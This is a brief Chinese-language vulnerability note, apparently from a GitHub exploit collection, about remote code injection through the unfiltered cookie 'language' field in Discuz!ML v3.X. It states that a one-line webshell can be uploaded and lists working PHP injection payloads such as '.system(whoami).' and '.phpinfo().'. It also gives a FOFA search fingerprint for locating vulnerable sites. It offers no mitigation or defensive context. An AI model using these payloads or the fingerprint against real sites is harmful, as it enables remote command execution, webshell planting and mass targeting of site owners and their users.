 漏洞发生的版本为 Discuz 国际版。Discuz!ML v3.X

用户数量不多，所以影响不大 product of 

codersclub.org

cookie 中 language字段未添加 过滤所致，可以上传一句话木马

payload

'.phpinfo().'

'.system(dir).'

'.whoami.'

'.system(whoami).'

'.file_put_contents(,).'

fofa 查询特征: ```2009-2019 

codersclub.org```
